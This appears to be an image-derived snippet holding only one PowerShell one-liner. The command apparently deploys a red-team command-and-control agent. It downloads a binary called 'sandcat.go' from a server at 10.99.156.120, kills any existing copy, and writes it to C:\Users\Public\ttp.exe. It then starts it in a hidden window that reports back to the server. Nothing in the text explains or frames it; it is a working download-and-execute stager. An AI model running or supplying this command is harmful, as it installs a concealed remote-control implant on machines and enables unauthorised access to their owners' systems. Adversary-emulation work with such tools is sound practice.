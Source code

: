 $server="http://10.99.156.120:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\ttp.exe"} | stop-process -f;rm -force "C:\Users\Public\ttp.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\ttp.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\ttp.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
